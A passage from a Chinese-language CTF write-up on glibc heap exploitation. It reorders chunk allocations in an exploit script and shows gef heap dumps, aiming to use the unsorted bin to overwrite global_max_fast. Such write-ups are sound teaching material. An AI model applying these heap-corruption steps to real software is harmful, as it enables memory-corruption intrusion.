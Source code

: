 这就导致我们后续利用unsorted bin进行改写max fast出错。因此我们不能触发这个逻辑，所以就要修改我们的创建节点的顺序,我们的exp需要改写为

```
insert(0x20, "A" * 0x1f)  # 0
insert(0x20, "B" * 0x1f)  # 1       
insert(0xf0,"G"*0xef)    # 2
merge(0, 0)
```

即在merge之前分配这个chunk，而且要在第三个创建这个0x100的chunk，这样才能保证与top chunk是紧邻的。

这样我们在merge之前再次观察内存情况，可以发现目前为止我们的0x100的chunk的确是与top chunk紧邻的

```
gef➤  heap chunks
Chunk(addr=0x555555758010, size=0x90, flags=PREV_INUSE)
    [0x0000555555758010     41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41    AAAAAAAAAAAAAAAA]
Chunk(addr=0x5555557580a0, size=0x90, flags=PREV_INUSE)
    [0x00005555557580a0     42 42 42 42 42 42 42 42 42 42 42 42 42 42 42 42    BBBBBBBBBBBBBBBB]
Chunk(addr=0x555555758130, size=0x100, flags=PREV_INUSE)
    [0x0000555555758130     47 47 47 47 47 47 47 47 47 47 47 47 47 47 47 47    GGGGGGGGGGGGGGGG]
Chunk(addr=0x555555758230, size=0x20de0, flags=PREV_INUSE)  ←  top chunk
```

在merge之后，我们再次观察是否chunk0成功回收到了unsorted bin上，并且chunk2仍然与top chunk紧邻

```
gef➤  heap chunks
Chunk(addr=0x555555758010, size=0x90, flags=PREV_INUSE)
    [0x0000555555758010     78 2b fc f7 ff 7f 00 00 78 2b fc f7 ff 7f 00 00    x+......x+......]
Chunk(addr=0x5555557580a0, size=0x90, flags=)
    [0x00005555557580a0     42 42 42 42 42 42 42 42 42 42 42 42 42 42 42 42    BBBBBBBBBBBBBBBB]
Chunk(addr=0x555555758130, size=0x100, flags=PREV_INUSE)
    [0x0000555555758130     47 47 47 47 47 47 47 47 47 47 47 47 47 47 47 47    GGGGGGGGGGGGGGGG]
Chunk(addr=0x555555758230, size=0x20de0, flags=PREV_INUSE)  ←  top chunk
gef➤  heap bins unsorted
───────────────────────────────────────────────────────────────────────────────── Unsorted Bin for arena '*0x7ffff7fc2b20' ─────────────────────────────────────────────────────────────────────────────────
[+] unsorted_bins[0]: fw=0x555555758000, bk=0x555555758000
 →   Chunk(addr=0x555555758010, size=0x90, flags=PREV_INUSE)
[+] Found 1 chunks in unsorted bin.
```

可以看到我们的确实现了预期的效果。

但是在merge之后发现融合后的chunk只有0x1f0大，这个是因为由于合并不需要两个0x100，而是是0x100 +0xf0，第二个chunk的头部是不需要的。所以我们应该微调分配的大小，我改为了0xf8这么大之后再融合

```
gef➤  heap chunks
Chunk(addr=0x555555758010, size=0x90, flags=PREV_INUSE)
    [0x0000555555758010     43 43 43 43 43 43 43 43 43 43 43 43 43 43 43 43    CCCCCCCCCCCCCCCC]
Chunk(addr=0x5555557580a0, size=0x90, flags=PREV_INUSE)
    [0x00005555557580a0     42 42 42 42 42 42 42 42 42 42 42 42 42 42 42 42    BBBBBBBBBBBBBBBB]
Chunk(addr=0x555555758130, size=0x200, flags=PREV_INUSE)
    [0x0000555555758130     08 2c fc f7 ff 7f 00 00 47 47 47 47 47 47 47 47    .,......GGGGGGGG]
Chunk(addr=0x555555758330, size=0x20ce0, flags=PREV_INUSE)  ←  top chunk
```
